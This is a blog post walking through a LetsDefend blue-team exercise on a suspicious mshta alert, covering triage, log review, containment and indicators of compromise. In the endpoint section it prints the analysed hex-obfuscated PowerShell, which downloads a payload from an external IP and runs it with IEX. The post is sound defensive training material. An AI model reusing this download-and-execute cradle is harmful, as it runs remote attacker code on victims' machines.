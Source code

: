```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-15 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. so here goes.
<!--more-->

![mshta behaviour](/images/wup_ld.png)

this is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history & proccess history we found at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

virustotal result are bad, 23/58 malicious flag. if we are interested we could try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)


#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use end point security to find out what is really happening in the host 172.16.17.38. From the screenshot we can see that the first command line that trigger the alert, followed by weird command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused to proxy for execution of the PS1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Tried a bit of magic at the second command below, where we can see a more bearable presentation. 
$H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". $H2 was a glorified "New-Object Net.WebClient". and $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt).

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

#### log management

After seeing what the script do, we best check log management and try to see did the server reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

apparently the server replied with 404, so no response arrived for the host (172.16.17.38) because the server (or the inteded file) is dead/ not there.

#### containment and lesson learned

Since it's definetly a malicious script (but stopped due to the C2 server is dead), it's best to contain the host. We can do this by going to endpoint security and click the request containment. 

The IP address, and URL and also the md5 hash of the executed file can then be use as IOC when we did the playbook and also close the case.



